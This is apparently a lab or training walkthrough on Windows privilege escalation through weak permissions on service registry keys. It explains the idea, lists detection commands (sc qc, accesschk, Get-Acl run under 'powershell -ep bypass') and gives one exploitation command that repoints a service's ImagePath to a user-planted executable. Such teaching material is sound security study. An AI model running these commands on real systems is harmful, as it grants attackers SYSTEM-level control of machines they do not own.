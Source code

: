 The Windows Registry stores configuration settings for services and applications. 
Weak permissions on registry keys can allow an attacker to modify settings used by privileged processes.

Think about the Registry as the `/etc` directory on linux, and the registry keys as `/etc/ssh` and the registry values as `port 22` when you do the `nano /etc/ssh` command 

How It’s Exploited: 
Attackers alter registry values (e.g., service executable paths) to point to malicious code, escalating privileges when the modified service or application runs.


_Walkthrough_

Using the command ` sc qc servicename `, you can check the service info and see if it is running with some privileges
If there's a `SYSTEM privilege (SERVICE_START_NAME)`, it confirms it is running with a privilege

detection 
1. C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\servicename
   or run 
2. a. powershell -ep bypass
   b.Get-Acl -Path hklm:\System\CurrentControlSet\services\servicename | fl



Exploitation
1. reg add HKLM\SYSTEM\CurrentControlSet\services\servicename /v ImagePath /t REG_EXPAND_SZ /d C:\users\user\esc.exe /f
